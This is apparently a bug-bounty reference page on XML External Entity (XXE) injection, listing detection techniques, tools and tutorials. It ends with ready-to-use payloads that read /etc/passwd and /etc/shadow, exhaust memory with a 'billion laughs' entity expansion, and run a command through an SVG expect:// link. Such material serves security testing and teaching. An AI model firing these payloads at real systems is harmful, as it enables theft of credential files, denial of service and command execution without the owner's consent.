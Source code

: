 # XXE Injection

- [How XXE Injection works](#how-xxe-injection-works)
- [Finding XXE Injection Vulnerabilties](#finding-xxe-injection-vulnerabilities)
- [Tools for XXE Injection](#tools-for-xxe-injection)
- [Tutorials for XXE Injection](#tutorials-on-xxe-injection)
- [Payloads for XXE Injection](#payloads-for-xxe-injection)

XXE Injection or XML External Entity Injection is a common vulnerability in web applications that can lead to sensitive data exposure, server-side request forgery (SSRF), denial of service (DoS), and other types of attacks. This vulnerability arises when an XML parser processes input from an untrusted source without proper validation. In this article, we will discuss XXE Injection in terms of Bug Bounty Hunting or Penetration Testing, including how to find vulnerabilities and the tools used to find them.

## How XXE Injection Works

An XML External Entity (XXE) is a reference to an external resource such as a file, URL, or database. XXE Injection occurs when an attacker can inject a malicious XML file or code that references external entities. The XML parser then processes this input, resulting in the inclusion of the external entity data in the output. This can be used to extract sensitive data, perform SSRF attacks, or cause DoS.

## Finding XXE Injection Vulnerabilities

The following are some techniques to find XXE Injection vulnerabilities in web applications:

Send XML data to the application: Start by sending XML data to the application and see if it responds with an error message that includes the input. If the error message includes the XML input, it could be a sign of XXE Injection vulnerability.

Use Burp Suite or ZAP: Tools like Burp Suite or OWASP Zed Attack Proxy (ZAP) can be used to intercept and modify XML requests. By modifying the XML request, an attacker can test for XXE Injection vulnerabilities.

Check for External Entity References: Check if the XML input contains any external entity references such as URLs, files, or databases. If it does, then it could be a sign of XXE Injection vulnerability.

Use XXE Injection payloads: Use payloads like <!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><foo>&xxe;</foo> to test for XXE Injection vulnerabilities. This payload will try to read the /etc/passwd file from the server and include it in the output.

Check for Blind XXE Injection: In some cases, the output may not include the external entity data. This is known as Blind XXE Injection. In such cases, an attacker can check for the vulnerability by sending a request to a server they control that includes a reference to an external entity. If the server receives the request, it means that the XXE Injection vulnerability exists.

## Tools to Find XXE Injection Vulnerabilities

There are several tools that can be used to find XXE Injection vulnerabilities in web applications. Some of the popular tools are:

* Burp Suite: Burp Suite is a popular web application security testing tool that can be used to find XXE Injection vulnerabilities. It includes features like intercepting and modifying requests, generating payloads, and scanning for vulnerabilities.

* OWASP Zed Attack Proxy (ZAP): ZAP is an open-source web application security testing tool that can be used to find XXE Injection vulnerabilities. It includes features like intercepting and modifying requests, generating payloads, and scanning for vulnerabilities.

* XMLQuire: XMLQuire is a standalone tool that can be used to test for XXE Injection vulnerabilities. It includes features like syntax highlighting, auto-completion, and validation.

* XXE Injection is a common vulnerability in web applications that can lead to serious security issues. Bug bounty hunters and penetration testers can use various techniques and tools to find XXE Injection vulnerabilities. It is important to perform proper validation of XML input to prevent XXE Injection vulnerabilities from occurring. By using the techniques and tools discussed in this article, security professionals can help to identify and mitigate XXE Injection vulnerabilities.


## Tools for XXE Injection
- [xxeftp](https://github.com/staaldraad/xxeserv) - A mini or micro webserver with FTP support
- [230-OOB](https://github.com/lc/230-OOB) - An Out of Band XXE Server for retriving contents over FTP and also generates payloads
- [XXEInjector](https://github.com/enjoiz/XXEinjector) - A tool for automatic exploitation of XXE vulnerabiltiy using direct and different out of band methods

### Tutorials on XXE Injection
- [XXE Injection](https://portswigger.net/web-security/xxe) - A good overview of XXE by Portswigger
- [XXE Injection](https://learn.snyk.io/lesson/xxe/) - Another good overview by Synk
- [XXE Complete Guide](https://www.hackerone.com/knowledge-center/xxe-complete-guide-impact-examples-and-prevention) - A great article by HackerOne
- [XXE Attacks](https://brightsec.com/blog/xxe-attack/) - A good overview by Bright Security

### Payloads for XXE Injection

- Basic XML Example
```
<!--?xml version="1.0" ?-->
<userInfo>
 <firstName>John</firstName>
 <lastName>Doe</lastName>
</userInfo>

```
- XXE Enity Example
```
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
 <userInfo>
  <firstName>John</firstName>
  <lastName>&example;</lastName>
 </userInfo>

```
- XXE File Disclosure
```
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/shadow"> ]>
<userInfo>
 <firstName>John</firstName>
 <lastName>&ent;</lastName>
</userInfo>

```
-XXE Denial of Service Example
```
<!--?xml version="1.0" ?-->
<!DOCTYPE lolz [<!ENTITY lol "lol"><!ELEMENT lolz (#PCDATA)>
  <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
  <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
  <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
  <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
  <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
  <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
  <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
  <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
  <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<tag>&lol9;</tag>

```
- XXE Local File Inclusion Example
```
<?xml version="1.0"?>
<!DOCTYPE foo [  
<!ELEMENT foo (#ANY)>
<!ENTITY xxe SYSTEM "file:///etc/passwd">]><foo>&xxe;</foo>
```
- XXE Base64 Encoded
```
<!DOCTYPE test [ <!ENTITY % init SYSTEM "data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk"> %init; ]><foo/>

```
- XXE: XXE inside SVG
```
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
    <image xlink:href="expect://ls"></image>
</svg>

```